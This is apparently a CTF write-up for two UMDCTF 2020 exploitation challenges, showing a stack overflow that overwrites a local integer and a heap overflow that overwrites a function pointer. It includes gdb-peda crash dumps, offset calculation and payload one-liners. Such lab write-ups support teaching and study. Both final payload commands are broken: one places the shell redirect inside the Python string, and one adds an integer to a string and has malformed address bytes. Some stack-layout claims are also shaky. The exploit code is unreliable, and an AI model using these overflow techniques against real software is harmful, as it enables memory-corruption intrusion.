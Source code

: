 # UMDCTF-2020-Writeups
Write-Ups for WittsEnd2 Challenges for UMDCTF

## Exploitation

### Cowspeak As A Service

First, let's explore `main()`. We see `char buf[1024]` and `fgets(buf, 1024, stdin)`. This means that we can put in upto 1024 bytes from stdin. 

Next lets break down  `moo()`. We see that moo takes in a parameter `*msg`, which is being put into `speak[64]` via `strcpy()`. This is also being set as the value of the environment variable `$MSG`. `system()` uses `$MSG` as a parameter for program `cowsay`.

There is also an integer called `chief_cow`, which is being set as the overwrite value of setenv. From `man setenv` overwrite does the following behavior:
 - If name does exist in the environment, then its value is changed to value if overwrite is nonzero; if overwrite is zero, then the value of name is not changed (and setenv()  returns a success status).

Based on this, we can reasonably conclude that in order to overwrite either be `0` or something other than `1`. 

Given the C file we can reasonably conclude that the layout of the stack of function `moo()` is as follows. (Note, highest address on stack starts on the top). 

 - Return Address of moo
 - EBP chief_cow - 8 byte address
 - chief_cow - int
 - EBP speak - 8 byte address
 - speak - char * 64

As a result if we modify chief_cow correctly, we will get the flag. This must be a perfect construction because if we overwrite additional bytes, it will behave normally (based on the fact it is setting an environment variable, and `strcspn(speak, '\r\n')` is looking for termination).

Given this, our payload must be 76 bytes because `64+8+4` will modify chief_cow, without affecting anything else. 

```bash
python -c "print('A' * 76) > payload.txt"
./cowspeak < payload.txt #or netcat

# UMDCTF-{flag_will_appear}
```

### Jump Not Found

We are given a binary to start. The first thing I would do given the binary is see what functions are present via gdb. We see in `info functions`.

```
0x00000000004004e0  _init
0x0000000000400510  puts@plt
0x0000000000400520  printf@plt
0x0000000000400530  strtol@plt
0x0000000000400540  gets@plt
0x0000000000400550  malloc@plt
0x0000000000400560  exit@plt
0x0000000000400570  _start
0x00000000004005a0  _dl_relocate_static_pie
0x00000000004005b0  deregister_tm_clones
0x00000000004005e0  register_tm_clones
0x0000000000400620  __do_global_dtors_aux
0x0000000000400650  frame_dummy
0x0000000000400657  jumpToHoth
0x0000000000400668  jumpToCoruscant
0x0000000000400679  jumpToEndor
0x000000000040068a  jumpToNaboo
0x000000000040069b  main
0x00000000004007f0  __libc_csu_init
0x0000000000400860  __libc_csu_fini
0x0000000000400864  _fini
```

So we see that there are four functions with `jumpTo` in the name and main. Next we checkout the program behavior. 

```
$ ./JNF
SYSTEM CONSOLE> 7
Check Systems
1 - Hoth
2 - Coruscant
3 - Endor
4 - Logout
SYSTEM CONSOLE> 1
Checking navigation...
Jumping to Hoth...
SYSTEM CONSOLE> 2
Checking navigation...
Jumping to Coruscant...
SYSTEM CONSOLE> 3
Checking navigation...
Jumping to Endor...
SYSTEM CONSOLE>
```
So we notice that we can jump to `Hoth`, `Coruscant`, and `Endor`, but naboo is missing. Lets see if there is any unexpected behvior with this. You can use a disassembler to figure out actual behavior; however, what I recommend is using `gdb-peda` or `gdb-gre` to generate a pattern and find out what is happening. 
```
gdb-peda$ pattern-create 200
Undefined command: "pattern-create".  Try "help".
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /home/mwittner/UMDCTF-2020-Challenges/Exploitation/JNF/host/JNF
SYSTEM CONSOLE> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Check Systems
1 - Hoth
2 - Coruscant
3 - Endor
4 - Logout
SYSTEM CONSOLE> 1
Checking navigation...

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7fffff19ecc0 --> 0x2000200020002
RDX: 0x3541416641414a41 ('AJAAfAA5')
RSI: 0x6022d0 ("Checking navigation...\nlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RDI: 0x1
RBP: 0x7ffffffeddf0 --> 0x4007f0 --> 0x41d7894956415741
RSP: 0x7ffffffeddd0 --> 0x602261 --> 0x4141734141254100 ('')
RIP: 0x40076a --> 0x400904bf7cebd2ff
R8 : 0x7fffff7d14c0
R9 : 0x0
R10: 0x7fffff19ecc0 --> 0x2000200020002
R11: 0x7fffff19ecc0 --> 0x2000200020002
R12: 0x400570 --> 0x89485ed18949ed31
R13: 0x7ffffffeded0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40075e <main+195>: mov    rax,QWORD PTR [rbp-0x10]
   0x400762 <main+199>: mov    rdx,QWORD PTR [rax]
   0x400765 <main+202>: mov    eax,0x0
=> 0x40076a <main+207>: call   rdx
   0x40076c <main+209>: jmp    0x4007ea <main+335>
   0x40076e <main+211>: mov    edi,0x400904
   0x400773 <main+216>: call   0x400510 <puts@plt>
   0x400778 <main+221>: mov    rax,QWORD PTR [rbp-0x10]
No argument
[------------------------------------stack-------------------------------------]
0000| 0x7ffffffeddd0 --> 0x602261 --> 0x4141734141254100 ('')
0008| 0x7ffffffeddd8 --> 0x602260 --> 0x4173414125410031 ('1')
0016| 0x7ffffffedde0 --> 0x6022b0 ("AJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiChecking navigation...\nlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0x7ffffffedde8 --> 0x6e670c801dc57d00
0032| 0x7ffffffeddf0 --> 0x4007f0 --> 0x41d7894956415741
0040| 0x7ffffffeddf8 --> 0x7fffff021b97 (<__libc_start_main+231>:       mov    edi,eax)
0048| 0x7ffffffede00 --> 0x1
0056| 0x7ffffffede08 --> 0x7ffffffeded8 --> 0x7ffffffee12f ("/home/mwittner/UMDCTF-2020-Challenges/Exploitation/JNF/host/JNF")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040076a in main ()
```
We see that it segmentation faults when jumping to Hoth, and we notice something interesting happening to the registers: 
```
RDX: 0x3541416641414a41 ('AJAAfAA5')
RSI: 0x6022d0 ("Checking navigation...\nlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
```
This looks similar to our pattern we just created, so lets see what happens when we try to find `AJAAfAA5`.

```
gdb-peda$ pattern offset AJAAfAA5
AJAAfAA5 found at offset: 80
gdb-peda$   
```
It looks like that it is found at offset 80. Therefore our payload must be 80 bytes to reach it. Now if you haven't started disassembling already, you should do that. You should also have figured out that this is not a stack based exploit because the system is calling function pointers through the struct `jmptable`. `jmptable` is initialized through malloc; thus, it is a heap based exploit. As a result, we should place the address immediately after our payload. 

Our construction of the payload is as follows: `payload + address`. There is two caveats to this: if you do not tell the system to jump to Hoth immediately after, you will run into an infinite loop. In addition, can't start at the prolog. the first byte of jumpToNaboo(that isn't 0x00) is 0x0a, which is `\n` in ascii. Running this command in GDB `b jumpToNaboo` will give you a good place to start. 

Final steps: 
```bash
python -c "print('A'+80+'\x40\06\8e\n\1\n')" > payload 
./JNF < payload
# UMDCTF-{flag_appears_here} 
```

